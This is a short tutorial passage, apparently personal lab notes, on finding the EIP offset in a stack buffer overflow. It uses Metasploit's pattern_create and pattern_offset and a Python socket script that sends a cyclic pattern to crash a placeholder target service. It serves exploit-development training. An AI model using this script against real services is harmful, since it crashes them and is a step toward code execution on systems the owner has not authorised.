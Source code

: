 To find the offset or the point right before EIP you can use a tool called pattern_create and pattern_offset from metasploit framework.

First make a pattern with the length of the crash point from [[1. Fuzz]] 
`pattern_create.rb -l < length >`
That will output a bunch of stuff out and put the in the pattern variable in below code.

```python
import socket

ip, port = "10.10.10.10", 9999 # Change the ip and port
crash_point = 0  # change this with what you got from step 1
prefix = b"" # change this if necessary and make sure theres a space at the end.
pattern = b"" # Put the pattern you made from the pattern_create.

try:
	s = socket.socket()
	s.connect((ip, port))
	s.send(prefix + pattern)

except:
	print(f"Something went wrong")

s.close()
```

Now after executing the code and crashing the program check Immunity Debugger for the EIP. After find out the EIP use pattern_offset for it
`pattern_offset.rb -q <EIP>`

That shoud give you the offset / the point right before EIP.